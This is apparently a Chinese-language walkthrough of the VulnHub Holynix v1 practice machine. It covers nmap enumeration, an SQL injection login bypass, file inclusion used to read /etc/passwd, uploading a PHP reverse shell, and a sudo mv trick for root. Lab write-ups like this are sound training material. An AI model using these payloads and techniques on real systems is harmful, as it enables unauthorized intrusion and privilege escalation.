> **靶机地址：**https://www.vulnhub.com/entry/holynix-v1,20/
>
> **Download (Mirror)**: https://download.vulnhub.com/holynix/holynix-v1.tar.bz2


## nmap扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.17
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-25 02:02 EST
Nmap scan report for localhost (10.10.10.17)
Host is up (0.00082s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.50 seconds
```

只有80端口开放

详细信息扫描

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -O -p80 10.10.10.17
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali:
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-25 02:03 EST
Nmap scan report for bogon (10.10.10.17)
Host is up (0.00027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.24 - 2.6.25
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

漏洞脚本扫描

```bash
PORT   STATE SERVICE
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-phpself-xss: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /login.php: Possible admin folder
|   /login/: Login page
|   /home/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting folder
|   /index/: Potentially interesting folder
|   /misc/: Potentially interesting folder
|   /transfer/: Potentially interesting folder
|_  /upload/: Potentially interesting folder
|_http-trace: TRACE is enabled
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-sql-injection:
|   Possible sqli for queries:
|     http://bogon:80/?page=login.php%27%20OR%20sqlspider
|_    http://bogon:80/?page=login.php%27%20OR%20sqlspider
MAC Address: 00:0C:29:BC:05:DE (VMware)
```

因为只有80端口开放，所以攻击面也非常明确！！

## Web渗透

### sql注入

有登录页面，先尝试`sql注入`，在name和password中都输入一个`'`



页面sql报错



用户名和密码都使用下面的万能语句

```
' or 1=1 #
```



成功登录！

找到文件上传的地方



使用kali系统里面的反弹shell进行上传

```bash
┌──(kali㉿kali)-[~]
└─$ locate php-reverse-shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php phpshell.php
```

修改IP地址



对php进行压缩

```bash
 gzip phpshell.php 
```


结果上传失败

### POST型文件包含

在`Security`中发现类似文件包含，查看源码，有指向的文件



试着修改一下，修改完点击`Display FIle`



```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
```


查看`/etc/shadow`的时候显示权限不够



尝试使用sql注入登录另一个用户

```bash
' or username="etenenbaum" #
```



重新上传，勾选自动解压`gzip`文件



上传成功




现在就是要找上传的位置了，因为上传界面提示`Home Directory Uploader`，所以可以判定上传到了家目录

上传后`url`变成了`transfer.php`，利用文件包含查看源码，发现用户`tar`包




对上传的压缩包重新打包

```bash
#先解压缩
sudo gunzip phpshell.php.gz
#打包
tar czf phpshell.tar.gz phpshell.php 
```






访问家目录`http://10.10.10.17/~etenenbaum/`




反弹成功



获取交互性更好一点的shell



### 提权

我们可以免密用`sudo`执行`chown chgrp tar mv`这几个命令。那么**结合mv可以给文件改名的特点**

```bash 
sudo mv /bin/su /bin/tar
#执行tar就相当于执行su
```


